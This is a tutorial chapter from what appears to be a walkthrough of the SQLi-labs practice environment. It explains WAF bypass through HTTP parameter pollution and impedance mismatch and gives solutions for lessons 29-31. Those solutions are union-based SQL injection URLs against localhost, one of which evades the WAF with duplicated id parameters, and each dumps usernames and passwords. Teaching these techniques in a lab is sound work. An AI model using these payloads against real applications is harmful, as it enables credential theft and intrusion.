

# Chapter-10 

## Demolishing Walls : Bypassing WAFs

Before we get into bypassing WAFs, lets first have look at few other basic things. 

### Introduction to WAFs (Web Application Firewalls)

> Web application firewalls (WAFs) are security tools designed to provide an independent security layer for web applications. Implemented as appliances, network sniffers, proxies, or web server modules, they analyze inbound and outbound data and detect and protect against attacks.

WAFs are quite common these days and provide standard level security to web applications. 

More information can be found on [Ivan Ristic's paper on WAFs](#).

### HTTP Parameter Pollution: HPP

This [site](https://www.owasp.org/index.php/Testing_for_HTTP_Parameter_pollution_(OTG-INPVAL-004)) explains HPP in great detail.

The following table illustrates how different web technologies behave in presence of multiple occurrences of the same HTTP parameter -

The sample url that is used is as follows - 

```
http://example.com/?color=red&color=blue
```

<p align="center"></p>

### Impedence Mismatch 

This occurs when the WAF is filtering a particular part of the url and the backend is interpreting a differnt part of the query string. 

This can be used to bypass WAF firewalls. The following can be done to achieve this - 

>1.  Submit an HTTP request containing the standard parameter name and value, and record the HTTP response. E.g. page?par1=val1
>1.  Replace the parameter value with a tampered value, submit and record the HTTP response. E.g. page?par1=HPP_TEST1
>1.  Send a new request combining step (1) and (2). Again, save the HTTP response. E.g. page?par1=val1&par1=HPP_TEST1
>1.  Compare the responses obtained during all previous steps. If the response from (3) is different from (1) and the response from (3) is also different from (2), there is an impedance mismatch that may be eventually abused to trigger HPP vulnerabilities.

## Lesson 29

This challenge is quite straight forward and be solved by entering the following url - 

```
http://localhost/sqlilabs/Less-29/?id=' union select 1, group_concat(username), group_concat(password) from users --+
```

## Lesson 30

This challenge makes use of WAF to filter out the unnecessary elements present in the url. 

In order to bypass this, we can make use of HTTP Parameter Pollution. When we pass another ```id``` paramter to the url, we are able to see the desired output. 

The reason for this is that, the test-bed is using ```Apache Tomcat server``` which makes use of the first parameter. 

The ```WAF``` checks only the first parameter but not the inject second parameter. We therefore pass a correct value to the first parameter and a malicious parameter to the second parameter. 

Now, it turns out that the back-end of the test-bed is running PHP which always evaluates the second parameter when multiple parameters are passed. Therefore, our malicious query gets executed. 

This is how impedence mismatch can be used to exploit the WAF. 

The query for this challenge can be found below - 

```
http://localhost/sqlilabs/Less-30/?id=6&id=-5" union select 1, group_concat(username), group_concat(password) from users --+
```

## Lesson 31 

This challenge can be solved easily by entering the following in the url - 

```
http://localhost/sqlilabs/Less-31/?id=-3") union select 1, group_concat(username), group_concat(password) from users --+
```

This challenge doesn't show any errors, therefore the right payload can be found by trying out different values. 